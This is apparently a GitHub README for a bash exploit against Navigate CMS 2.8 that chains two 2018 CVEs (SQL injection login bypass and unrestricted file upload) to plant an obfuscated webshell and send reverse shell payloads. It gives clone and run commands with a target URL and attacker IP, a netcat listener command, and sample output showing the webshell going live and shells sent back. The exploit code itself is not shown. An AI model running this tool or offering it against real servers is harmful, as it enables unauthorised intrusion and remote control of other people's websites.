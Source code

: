 # Navigate CMS 2.8 Remote Code Execution Exploit

![Security](https://img.shields.io/badge/Security-Exploit-red)
![Platform](https://img.shields.io/badge/Platform-Linux-blue)
![Language](https://img.shields.io/badge/Language-Bash-green)

A proof-of-concept exploit for Navigate CMS 2.8 that demonstrates a remote code execution vulnerability leading to reverse shell access.

## 📖 Overview

This exploit demonstrates CVE 2018-17552 and CVE 2018-17553 vulnerability chain in Navigate CMS version 2.8, featuring:

- **SQL Injection** in authentication mechanism
- **Unrestricted File Upload** vulnerability
- **Remote Code Execution** via obfuscated webshell
- **Multiple Reverse Shell** payload delivery methods

## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/navigate_rce.git
cd navigate_rce

# Make the script executable
chmod +x navigate_rce.sh
```
## 🚀 Usage
Basic Syntax:
```bash
./navigate_rce.sh <target_url> <your_ip> <your_port>
```
Example:
```bash
./navigate_rce.sh http://victim.com 192.168.1.100 1337
```
Start a netcat listener before running the exploit:
```bash
nc -lvnp 1337
```
Expected Output:
```bash
 ______
(_____ \
 _____) ) _ _ ____   ____ ___   ____
|  ____/ | | |  _ \ / ___) _ \ / _  |
| |    | | | | | | | |  | |_| ( (_| |
|_|     \___/|_| |_|_|   \___/ \___ |
                              (_____|
   Navigate CMS 2.8 RCE by dr14n

[*] Getting session...
[+] Session: abcdefvckyou
[*] Creating webshell...
[*] Uploading webshell...
[*] Verifying webshell...
[+] Webshell active: http://victim.com/navigate/navigate_info.php
[*] Sending reverse shell payloads...
[+] Reverse shell payloads sent!
[+] Check your listener for connections
```
